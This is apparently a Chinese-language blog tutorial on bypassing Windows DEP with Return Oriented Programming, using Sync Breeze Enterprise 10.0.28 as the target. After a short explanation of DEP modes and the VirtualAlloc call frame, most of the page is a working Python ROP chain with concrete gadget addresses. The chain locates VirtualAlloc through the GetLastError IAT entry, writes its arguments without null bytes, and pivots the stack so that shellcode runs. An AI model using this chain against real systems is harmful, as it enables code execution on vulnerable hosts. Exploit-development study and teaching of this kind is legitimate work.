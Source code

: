 ```yaml
---
layout: default
---
```


  使用 Sync Breeze Enterprise 10.0.28 用于测试对象. 
  由于 Sync Breeze Enterprise 10.0.28 未导入VirtualAlloc, 使用GetLastError地址替换.
 
 ## DEP 简介
#### DEP 总共有4种模式.
- OptIn:           	DEP 只对系统进程和指定进程开启.
- OptOut:        	DEP 对所有进程开启,除非指定了特定进程不开启.
- AlwaysOn :   	DEP 始终开启.
- AlwasysOff : 	DEP 始终关闭.
- win7 和 win10 默认使用 OptIn. 	windows Server 2012 或  Windows Server 2019 默认使用AlwaysOn.
 
#### 为了兼容性问题, 有些情况下可以对进程开启或关闭 DEP
- LdrpCheckNXCompatibility 	用于检查以确定是否应为进程启动DEP支持. (ntdll.dll)
- NtSetInformationProcess 		用于是开启或禁用正在运行的进程的DEP. (ntdll.dll)

#### win10 强制开启指定进程DEP
- 安全中心 -> 打开Windows安全中心 -> 应用和浏览器控制 -> Exploit Protection -> 程序设置 -> 添加程序自定义 -> 数据执行保护(DEP)
- 编译过程中加入 /NXCOMPAT标志 , 在进程运行期间无法禁用DEP. 
- 这意味着在整个过程中无法关闭 DEP, 那么唯一的选择就是规避系统的NX检查.

---

##  Return  Oriented Programming (ROP)
>
 ROP 原理是用程序中己有的代码片段来组成可执行的代码链.
 通过将不同代码片段地址注入到栈中, 使用RET来控制程序流程.
 最终调用 VirtualAlloc,VirtualProtect 等函数改写内存权限执行Shellcode.

```
 假设栈内数据如下的情况下,代码会依次执行. 使用栈来控制RET的跳转.

  ESP 0 -> 0x1013fc06  	# xor eax, eax ; ret ;
  ESP 4 -> 0x101229f2	# inc eax ; ret ;
  ESP 8 -> 0x10114901	# mov  [ecx], eax ; ret ;
```
#### 使用rp++获取Gadgets
```
- https://github.com/0vercl0k/rp
- rp-win-x86.exe -f Test.exe -r 5 > rop.txt  
```

#### 使用VirtualAlloc改变虚拟地址属性
```
 LPVOID WINAPI VirtualAlloc(
   _In_opt_ LPVOID lpAddress,
   _In_     SIZE_T dwSize,
   _In_     DWORD  flAllocationType,
   _In_     DWORD  flProtect
 );
```
 pAddress: 如果指向己分配页面,则可以使用flProtect改变页面属性.
 dwSize: 以页为单位 Shellcode如果小于0x1000字节, dwSize在0x01~0x1000之间即可.
 flAllocationType: 必须设置为MEM_COMMIT (0x00001000).
 flProtect: 必须设置为PAGE_EXECUTE_READWRITE (0x00000040).

#### 调用栈信息
- 将以下栈数据放到溢出EIP之前. 
```
0d2be300 75f5ab90 -> KERNEL32!VirtualAllocStub (kernel32.dll符号表中名字为VirtualAllocStub)
0d2be304 0d2be488 -> Return address (Shellcode on the stack)
0d2be308 0d2be488 -> lpAddress (Shellcode on the stack)
0d2be30c 00000001 -> dwSize
0d2be310 00001000 -> flAllocationType
0d2be314 00000040 -> flProtect
```
#### 需要解决的问题
 得到栈地址 (通过PUSH ESP; POP REGISTER; 来获取)
 得到 VirtualAlloc 地址 (通过IAT表获得)
 得到 Shellcode 地址 (通过计算溢出数据来计算)
 dwSize, flAllocation Type和 flProtect 包含0x00字符. (通过负数运算,自增,自减,取反等方式写入)

#### 参考代码
```
  #-----------调用框架----------
  va = pack('<L', 0x45454545)	# KERNEL32!VirtualAllocStub
  va += pack('<L', 0x46464646)	# Return address (Shellcode on the stack)
  va += pack('<L', 0x47474747)	# lpAddress (Shellcode on the stack)
  va += pack('<L', 0x48484848) 	# dwSize
  va += pack('<L', 0x49494949) 	# flAllocationType
  va += pack('<L', 0x51515151)	# flProtect

  #-----------得到栈地址----------
  eip = pack('<L', 0x10154112)	# push esp ; inc ecx ; adc eax, 0x08468B10 ; pop esi ; ret ; (将ESP地址赋值给ESI)
  rop = pack("<L", 0x41414141)	# offset (栈偏移对齐,根据漏洞情况而定)
  rop += pack('<L', 0x10052048)	# mov eax, esi ; pop esi ; retn 0x0004 ; (将ESP地址赋值给EAX(EAX 操作指令更多))
  rop += pack("<L", 0x41414141)	# alignment pop esi
  
  #-----------得到VA地址 (esp - 20)----------
  rop += pack("<L", 0x10154336)	# pop ebp ; ret ;
  rop += pack("<L", 0x41414141)	# alignment retn 0x0004 (先RET然后ESP+4)
  rop += pack("<L", 0xFFFFFFE0)	# -0x00000020 = 0xFFFFFFE0
  rop += pack("<L", 0x100fcd71)	# add eax, ebp ; dec ecx ; ret ;(eax = esp - 0x20 指向VA栈顶)
  rop += pack("<L", 0x100baecb)	# xchg eax, ecx ; ret ; 
  
  #-----------写入函数地址到 VA (esp - 20)----------
  rop += pack("<L", 0x1002f729)	# pop eax ; ret ; (eax = GetLastError IAT Address)
  rop += pack("<L", 0x10168040)	# GetLastError IAT Address
  rop += pack("<L", 0x1014dc4c)	# mov eax,  [eax] ; ret ; (eax = GetLastError 虚拟地址)		 
  rop += pack("<L", 0x10114901)	# mov [ecx], eax ; retn 0x000C ; (GetLastError 虚拟地址 写入VA栈顶)
  
  #-----------写入返回地址到 VA + 4 (esp - 20)----------
  rop += pack("<L", 0x10152f51)	# mov eax, ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10154336)	#  pop ebp ; ret ;
  rop += pack("<L", 0xFFFFFEB8)	# -0n328 = 0xFFFFFEB8
  rop += pack("<L", 0x1014c168)	# sub eax, ebp ; pop esi ; pop ebp ; pop ebx ; ret ; (shellcode偏移,大小根据情况而定)
  rop += b"A" * 0xC				# alignment 3 pop
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; (VA + 4 = Return address (Shellcode on the stack))
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ;
  
  #-----------写入lpAddress到地址 VA + 8 (esp - 18)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + 4 = lpAddress address (Shellcode on the stack))
  
  #-----------写入dwSize到地址 VA + C (esp - 14)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x1013fc06)	# xor eax, eax ; ret ;
  rop += pack("<L", 0x101229f2)	# inc eax ; ret ;
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + 8 = dwSize)
  
  #-----------写入flAllocationType到地址 VA + 10 (esp - 10)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x1002f729)	# pop eax ; ret ;
  rop += pack("<L", 0xFFFFEFFF)	# -0x00001000 = 0xFFFFEFFF
  rop += pack("<L", 0x1010ccc3)	# neg eax ; ret ;
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + C = flAllocationType)
  
  #-----------写入flProtect到地址 VA + 14 (esp - C)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x1002f729)	# pop eax ; ret ;
  rop += pack("<L", 0xFFFFFFC0)	# 0x00000040 = 0xFFFFFFC0
  rop += pack("<L", 0x1010ccc3)	# neg eax ; ret ;
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + 10 = flProtect)
  
  #-----------调用函数 KERNEL32!VirtualAllocStub----------
  rop += pack("<L", 0x10152f51)	# mov eax, ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10154336)	# pop ebp ; ret ;
  rop += pack("<L", 0xFFFFFFEC)	# 0n20 = FFFFFFEC 
  rop += pack("<L", 0x100fcd71)	# add eax, ebp ; dec ecx ; ret ; (还原EAX地址到VA栈顶)
  rop += pack("<L", 0x10158c35)	# xchg eax, esp ; ret ; (将VA栈顶地址赋值给ESP)
```

 [DEP Bypass  参考](https://www.youtube.com/watch?v=phVz8CqEng8)
